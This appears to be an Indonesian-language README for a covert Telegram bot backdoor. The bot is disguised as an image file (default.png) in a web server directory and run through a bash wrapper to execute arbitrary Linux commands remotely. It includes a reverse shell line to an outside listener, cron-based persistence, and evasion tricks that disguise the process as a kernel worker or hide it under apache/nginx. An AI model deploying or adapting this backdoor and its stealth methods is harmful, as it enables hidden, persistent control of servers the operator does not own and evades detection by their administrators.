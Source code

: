 # hidden bot Wrapper Script v1.0


</h1>
<h4 align="center">command list</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>
📌 Konsep Wrapper Script dalam Eksekusi Bot Telegram adalah, <br> skrip perantara yang digunakan untuk menjalankan program atau skrip lain secara tidak langsung. <br> Ini berguna untuk menyembunyikan, menyederhanakan, atau mengontrol eksekusi skrip utama.<br>

Dalam kasus ini, kita memiliki: <br>

Skrip utama (default.png) yang sebenarnya adalah bot Telegram, <br> tetapi namanya disamarkan agar terlihat seperti file gambar. <br>
Wrapper script (dockerbot), yang bertindak sebagai perantara untuk menjalankan default.png.

📂 Struktur File
```
/var/www/html/default.png  --> Skrip utama bot (disamarkan sebagai file gambar)
/tmp/img/dockerbot         --> Wrapper script untuk menjalankan default.png
```
📜 Isi Wrapper Script (dockerbot)
```
#!/bin/bash
/var/www/html/default.png
```

📌 Penjelasan:
```
#!/bin/bash → Menentukan bahwa skrip ini dijalankan menggunakan Bash.
/var/www/html/default.png → Memanggil skrip utama bot yang disamarkan sebagai file gambar.
Jadi, setiap kali dockerbot dijalankan, sebenarnya yang terjadi adalah default.png (yang merupakan bot Telegram) akan dieksekusi.
```
<br>
<br>
<br>
<br>


📌cara eksekusi
<br>
1️⃣ Buat file /tmp/img/dockerbot

Isi dengan:

```
#!/bin/bash
/sesuaikan/dengan/lokasi/botpng/default.png
```
2️⃣ Beri izin eksekusi
```
chmod 777 /tmp/img/dockerbot
```

3️⃣ menjalankan bot 

```
bash /tmp/img/dockerbot
atau bisa dengan 
nohup bash default.png &
```



apasaja yg bisa di jalankan di bot telegram

```
perintah Linux apa saja, termasuk:

✅ ls -la → Menampilkan daftar file dengan detail.
✅ wget http://example.com/file → Mengunduh file dari internet.
✅ curl -O http://example.com/file → Alternatif download selain wget.
✅ ps aux → Melihat daftar proses.
✅ netstat -tulnp → Melihat koneksi jaringan.
✅ whoami && id → Cek user dan grup aktif.
✅ bash -i >& /dev/tcp/1.2.3.4/4444 0>&1 → Reverse shell ke listener.
✅ dan semua command linux 


🔥 Fitur systemd
✅ Monitoring bot setiap 5 menit menggunakan cronjob
✅ Jika bot mati, otomatis dijalankan ulang. otomatis
✅ Mengirim pesan saat bot mati (misalnya karena kill, CTRL+C, atau shutdown)

```
<br>
<br>
<br>
<br>
<br>

📌NOTE bot ini masih bisa di modifikasi dengan metode :
```
Ubah Nama Proses di Runtime (Fake Process Name)
exec -a "[kworker/u8:2]" /var/www/html/default.png
💡 Efek: Saat dicek dengan ps aux atau pgrep -af, proses akan terlihat sebagai [kworker/u8:2] (nama biasa untuk kernel worker).

📌Jalankan Proses dengan PPID Palsu
Agar tidak terlihat mencurigakan, bisa jalankan bot di bawah proses parent yang sudah ada, misalnya apache2 atau nginx:
nohup setsid /var/www/html/default.png > /dev/null 2>&1 &
💡 Efek: Bot terlihat sebagai bagian dari apache/nginx saat dicek dengan pstree atau ps.
Dengan kombinasi metode ini, bot jadi lebih stealth tanpa akses root. 🔥
```

